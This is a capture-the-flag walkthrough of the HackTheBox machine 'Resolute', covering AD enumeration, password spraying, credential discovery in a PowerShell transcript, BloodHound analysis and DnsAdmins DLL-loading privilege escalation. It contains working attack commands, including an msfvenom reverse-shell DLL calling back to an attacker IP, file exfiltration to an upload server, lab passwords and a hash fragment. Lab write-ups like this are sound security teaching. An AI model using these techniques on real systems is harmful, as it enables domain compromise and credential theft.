 ```yaml
---
title: Resolute - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - active
  - directory
  - windows
  - medium
---
```

# HTB Resolute

## user.txt

Enumerate:

```bash
 sudo nmap -sC -sV $ip -Pn --top-ports 10000
```

Results: 

```bash
Nmap scan report for $ip
Host is up (0.041s latency).
Not shown: 8354 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-01-13 15:32:44Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-13T15:32:52
|_  start_date: 2025-01-13T15:30:38
|_clock-skew: mean: 2h47m38s, deviation: 4h37m10s, median: 7m36s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2025-01-13T07:32:54-08:00

```


```bash
crackmapexec smb $ip --users
```

Results:

```bash
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] Error enumerating domain users using dc ip 10.129.96.155: NTLM needs domain\username and a password
SMB         10.129.96.155   445    RESOLUTE         [*] Trying with SAMRPC protocol
SMB         10.129.96.155   445    RESOLUTE         [+] Enumerated domain user(s)
SMB         10.129.96.155   445    RESOLUTE         megabank.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.129.96.155   445    RESOLUTE         megabank.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.129.96.155   445    RESOLUTE         megabank.local\krbtgt                         Key Distribution Center Service Account
SMB         10.129.96.155   445    RESOLUTE         megabank.local\DefaultAccount                 A user account managed by the system.
SMB         10.129.96.155   445    RESOLUTE         megabank.local\ryan                           
SMB         10.129.96.155   445    RESOLUTE         megabank.local\marko                          Account created. Password set to Welcome123!
SMB         10.129.96.155   445    RESOLUTE         megabank.local\sunita                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\abigail                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\marcus                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\sally                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\fred                           
SMB         10.129.96.155   445    RESOLUTE         megabank.local\angela                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\felicia                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\gustavo                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\ulf                            
SMB         10.129.96.155   445    RESOLUTE         megabank.local\stevie                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\claire                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\paulo                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\steve                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\annette                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\annika                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\per                            
SMB         10.129.96.155   445    RESOLUTE         megabank.local\claude                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\melanie                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\zach                           
SMB         10.129.96.155   445    RESOLUTE         megabank.local\simon                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\naoki  
```

An interesting outcome: 
user: marko
Password: Welcome123!

Now we perform a spray password attack with kerbrute 

```bash
./kerbrute_linux_amd64 passwordspray -d megabank.local --dc $ip ~/borrar/users.txt  Welcome123!
```

Results:

```bash
[+] VALID LOGIN WITH ERROR:	 melanie@megabank.local:Welcome123!	 (Clock skew is too great)
```

We connect via evil-WinRM

```bash
evil-winrm -i $ip -u melanie -p 'Welcome123!'
```

And get the flag:

```bash
type C:\Users\melanie\Desktop\user.txt
```

Results:

```bash
39f05b4fb62a08d8f6cde4ad11d2f40d
```

## Root.txt

```bash
evil-winrm -i $ip -u melanie -p 'Welcome123!'
```

After enumerating and enumerating, everything ended up being an old log of a powershell sequence saved at 

```powershell
C:\PSTranscripts\20191203> type "PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt"
```

User: ryan
Serv3r4Admin4cc123!

However, it's necessary using `dir -force` to be able to spot the directory to start with.


```bash
evil-winrm -i $ip -u ryan -p 'Serv3r4Admin4cc123!'
```

Serve SharpHound.exe and PSUpload.ps1 from our kali machine:

```bash
python -m http.server 8000
```

Retrieve it from the Win-RM connection:

```bash
# Certutil is not working
Invoke-WebRequest http://10.10.14.149:8000/SharpHound.exe -OutFile SharpHound.exe
Invoke-WebRequest http://10.10.14.149:8000/PSUpload.ps1 -OutFile PSUpload.ps1
```

Run the SharpHound collector:

```bash
.\SharpHound.exe -c All --zipfilename enum
```

Get the uploadserver running in our kali:

```bash
python3 -m uploadserver
```

Upload the collector file:

```bash
Import-Module .\PSupload.ps1
Invoke-FileUpload -Uri http://$ipServer:8000/upload -File C:\Users\ryan\Documents\fileenum.zip
```

Run bloodhound in our kali and upload the zip file:

```bash
# In one terminal
sudo neo4j console

# In a second terminal 
bloodhound

# Upload the file
```

Now we can see that RYAN is a nested member of the DNSADMINS:

![](img/htb-resolute01.png)

The DnsAdmins group in Active Directory is a built-in security group with special privileges related to managing the DNS Server Service in a Windows environment. This group is typically present on domain controllers where the DNS Server role is installed.

The group is intended to manage the DNS server configuration for the Active Directory domain. Members of this group can perform administrative tasks related to DNS, such as creating, modifying, or deleting DNS records.

By default, the DnsAdmins group is empty. Administrators must explicitly add users or other groups as members.

Members of the DnsAdmins group can potentially execute arbitrary commands on the DNS server, as they can load custom DLLs into the DNS service. This ability can be exploited to escalate privileges to domain administrator if the DNS server runs on a domain controller.

### Exploit: Loading a Malicious DLL

**Step 1: Create a Malicious DLL**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.149 LPORT=443 -f dll -o rev.dll
```

**Step 2: Transfer the DLL to the Target**

```bash
Invoke-WebRequest -Uri http://10.10.14.149:8000/dllinjection.dll -OutFile rev.dll
```

But it does not work as Defender is in use. We will share the file from a smbserver in our kali:

```bash
python3 impacket/examples/smbserver.py share ./
```

Now it can be executed from that share location:

**Step 3: Configure the DNS Server to Load the Malicious DLL**

```bash
dnscmd.exe /config /serverlevelplugindll \\10.10.14.149\share\rev.dll
```

**Step 4: Launch a listener in your kali**

```bash
nc -lnvp 443
```

**Step 5: Restart the DNS Service**

```powershell
sc.exe stop dns
sc.exe start dns
```

When the DNS service restarts, it will load the malicious DLL, and the payload in the `DllMain` function will execute. We will see something similar to this in the smbserver:

```
*] Incoming connection (10.129.96.155,53560)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:a1d137f48aa596c91345a5655a6e99b0:0101000000000000006b0a4cec65db01c58cea7f0585672e0000000001001000560052007a007000520046005a00580003001000560052007a007000520046005a0058000200100
[SNIP]
```


**Step 6: Obtain the flag**

In the listener at port 443 we will obtain a reverse shell. Print the flag.

```bash
type C:\Users\Administrator\Desktop\root.txt
```

Results:  2f18fdc60da2de8a5459d04046f12485
